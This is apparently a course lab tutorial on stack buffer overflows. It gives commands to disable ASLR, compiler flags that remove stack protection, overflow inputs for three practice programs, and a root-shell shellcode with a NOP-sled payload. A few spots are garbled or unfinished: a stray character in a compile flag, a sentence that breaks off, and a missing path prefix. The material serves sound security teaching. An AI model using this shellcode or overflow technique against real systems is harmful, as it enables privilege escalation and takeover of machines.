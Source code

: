 # Week 2 - Malware and Buffer Overflow
In this tutorial you'll work on exploiting a buffer overflow vulnerability. This attack can crash a legitimate process, give the attacker access to confidential data or even give the attacker a full control over a machine (see Challange3). 

## Setup
Disable ALSR on your machine using `echo 0 | tee /proc/sys/kernel/randomize_va_space`

## Challenge 1
Your goal here is to modify a variable in the code even though the code doesn't contain any logic writing to this variable. To do that

* Analyze the code in `challenge1.c`

* Compile `challenge1.c` using `gcc challenge1.c -o challenge1 -m32 -fno-stack-protector -z execstack -g`

* Run the file with an input that will change the value of `do_not_modify` to something other than 0.

* Add a `printf` statements to your code that will print the pointer values for buffer and modified variables.

* Run the program several times and observe the pointer values.

* Recompile the program without the `-fno-stack-protector`. What changed? Is your attack still possible?

* Enable ALSR on your machine and run the program again (modify the command from the beginning of this task). What changed? How ALSR protects against buffer overflow attacks? 

```
./challenge1 aaaaaaaaa
```

## Challenge 2

Disable ALSR on your machine using `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

Compile `challenge2.c` using `gcc challenge2.c -o challenge2 -m32 -fno-stack-protector -z exe<cstack -g`

Run the file with an input that will change the value of modified to 0x0d0a0d0a. 

```
$./challenge2 `python2 -c 'print "A"*64 + "\x0b\x0d\x0b\x0d"'`
```

## Challenge 3

Analyze the code of `challenge3.c`. Compile it using:
````
gcc challenge3.c -o challenge3 -m32 -fno-stack-protector -z execstack -g
```
Your goal is to 


Shell code:
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

Run the file with an input that will cause the winner function to be called. 
```
./challenge3 `python -c 'print "A"*16 + "\xcb\x91\x04\x08"'`
```

```
/challenge3 `python2 -c 'print "\x90"*359 + "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x30\xd4\xff\xff"'`
```
